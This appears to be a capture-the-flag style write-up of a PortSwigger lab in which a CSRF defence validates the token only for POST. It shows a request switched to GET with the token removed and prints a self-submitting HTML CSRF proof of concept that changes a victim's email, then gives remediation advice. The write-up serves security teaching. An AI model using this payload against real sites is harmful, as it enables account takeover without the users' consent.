







# CSRF where token validation depends on request method

**Lab:** PortSwigger Web Security Academy — *CSRF where token validation depends on request method* (Practitioner).

> The email-change functionality is vulnerable to CSRF. It attempts to block CSRF but only applies the defence to certain request methods. Host an HTML page on the exploit server that changes the viewer's email. Credentials: `wiener:peter`.

## The flaw class: request-method dependency

Some applications validate the CSRF token only for the method they *expect* a form to use. A common mistake:

- For a **POST** request, the token is checked.
- For a **GET** request, the token check is **skipped** (the developer never imagined the action would be reached by GET).

If the endpoint still *performs the action* when reached by GET, the attacker simply switches the method and moves the parameters into the query string — no token required.

```http
POST /email/change HTTP/1.1          ← token validated
csrf=valid_token&email=user@normal.com
```
```http
GET /email/change?email=pwned@evil.com HTTP/1.1   ← no token required!
```

## 1. Capture the request

Log in as `wiener:peter`, change the email with Burp intercepting, and send the request to Repeater. It is a POST carrying a `csrf` token.







## 2. Prove the method dependency

In Repeater, use **Change request method** to convert the POST to GET, then **remove the `csrf` parameter entirely**. The server still accepts the request and changes the email — confirming the token is only validated for POST.





## 3. Build the exploit

Because the action works over GET with no token, a self-contained GET PoC is enough:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="attacker@mail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## 4. Deliver it

Host it on the exploit server and deliver it to the victim.





## Why the attack works

CSRF protection must be applied consistently to every method that can perform the action. Here the defence is bound to the *request method* rather than to the *action*, so changing POST to GET side-steps it completely.

## Remediation

Validate the CSRF token for every method that mutates state, and do not expose state-changing actions over GET at all. Reject a request whose token is missing regardless of method.
